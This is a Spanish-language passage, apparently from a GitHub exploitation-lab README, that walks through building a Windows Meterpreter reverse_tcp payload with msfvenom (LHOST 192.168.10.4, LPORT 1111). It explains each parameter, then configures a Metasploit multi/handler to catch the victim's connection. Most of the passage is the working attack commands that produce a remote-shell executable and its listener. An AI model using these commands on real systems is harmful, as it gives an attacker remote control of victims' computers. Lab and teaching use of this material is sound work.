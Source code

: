 ```
msfvenom –-platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.10.4
LPORT=1111 -f exe > payload1.exe
```
<p align="center">
  <img src="https://github.com/ElChe1/Explotation-Lab/blob/main/Payload-Creation/media/img/creacion_payload1.png" alt="creacion_payload1" style="border-radius: 10px;">
</p>

<br>


**Explicación de los parámetros:**
- **--platform windows:** Especifica que el payload es para Windows.
- **-p windows/meterpreter/reverse_tcp:** Define el payload Meterpreter Reverse TCP, que permitirá conectarse a la víctima.
- **LHOST=192.168.10.4:** Dirección IP de la máquina atacante, que recibirá la conexión.
- **LPORT=1111:** Puerto en el que la máquina atacante estará escuchando la conexión.
- **-f exe:** Especifica el formato del archivo como ejecutable (.exe) para Windows.
- **> payload1.exe:** Guarda el archivo generado con el nombre payload1.exe.


Para recibir la conexión de la víctima, debes configurar Metasploit para que actúe como handler y escuche en el puerto 1111.
Abre **Metasploit** i selecciona el módulo de escucha **multi/handler**
```
msf6 > use exploit/multi/handler
```
<p align="center">
  <img src="https://github.com/ElChe1/Explotation-Lab/blob/main/Payload-Creation/media/img/multi_handler.png" alt="multi_handler" style="border-radius: 10px;">
</p>

<br>

Configura el payload i ponte en escucha.
```
msf6 > set payload windows/meterpreter/reverse_tcp
msf6 > set lhost 192.168.10.4
msf6 > set lport 1111
msf6 > run
```
<p align="center">
  <img src="https://github.com/ElChe1/Explotation-Lab/blob/main/Payload-Creation/media/img/config_payload1.png" alt="config_payload1" style="border-radius: 10px;">
</p>
